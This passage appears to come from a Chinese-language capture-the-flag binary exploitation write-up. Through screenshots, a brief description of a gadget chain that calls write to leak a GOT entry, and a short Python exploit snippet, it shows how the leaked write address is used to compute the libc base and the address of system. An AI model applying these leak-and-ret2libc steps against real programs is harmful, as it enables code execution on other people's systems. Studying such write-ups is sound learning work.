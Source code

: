 [![](assets/1700442742-75f357a1466f4352afaa5997a5caf694.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183749-5a5c3578-8535-1.png)

执行完 g2

[![](assets/1700442742-09191894c478ec1efe919044be1f45b1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183753-5d4870bc-8535-1.png)

[![](assets/1700442742-8fecfdc0a49d00e19b14a1a15970d6c6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183757-5f4f39e0-8535-1.png)

布置好了`write(1,write@got.plt,0x8)`​

跳转到 x3 -> write，开始 leak

[![](assets/1700442742-3c5001454652c044d1d31441a422969a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183801-618b118e-8535-1.png)

```plain
write_addr = uu64(r(6))
li('write_addr'+hex(write_addr))
libcbase = write_addr - libc.sym['write']
li('libcbase'+hex(libcbase))
system = libcbase + libc.sym['system']
li('system'+hex(system))
```
